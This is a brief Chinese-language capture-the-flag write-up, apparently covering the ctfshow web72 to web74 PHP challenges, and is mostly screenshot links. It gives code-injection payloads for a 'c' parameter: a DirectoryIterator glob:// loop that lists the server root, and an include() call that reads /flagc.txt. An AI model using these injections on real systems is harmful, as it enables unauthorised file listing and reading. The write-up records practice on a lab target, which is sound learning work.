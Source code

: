 ![image-20220318205707478](https://img-blog.csdnimg.cn/img_convert/c39ec250811ba3d866df27a24cbc1141.png)

先看一下源码

![image-20220318205822789](https://img-blog.csdnimg.cn/img_convert/12d227c3b092ad8f72d93c15a486fb96.png)

这题对我来说有点难度，看了网上的wp。

先查询flag的位置

```
c=?><?php $a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f->__toString().' ');
}
exit(0);
?>
```

![image-20220318210222426](https://img-blog.csdnimg.cn/img_convert/1c605aab28c910dc8e0799ec49c1a2fb.png)

这题未解出。。。。。。

# web73

![image-20220318210902325](https://img-blog.csdnimg.cn/img_convert/21e7c0597a5254179e290e8670ccab68.png)

先读取目录

```php
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");};exit();
```

![image-20220318210924758](https://img-blog.csdnimg.cn/img_convert/3f3b157799a2116e53bff1760452f2e8.png)

看到flag，直接include

```
c=include('/flagc.txt');exit();
```

![image-20220318211013551](https://img-blog.csdnimg.cn/img_convert/ea56db07ae06f83ea7ae49e8ed5b9ea8.png)

# web74

![image-20220318211111209](https://img-blog.csdnimg.cn/img_convert/be4a4792f1a48368bee1e0a2f2344b6a.png)

还是先读取根目录内容

![image-20220318211136513](https://img-blog.csdnimg.cn/img_convert/0f07e5b9ab6d8d819382ad3cd501069a.png)

找到flag，试试直接include

![image-20220318211304920](https://img-blog.csdnimg.cn/img_convert/f90b2f91d02e22798bfe35cf3d1fa78c.png)
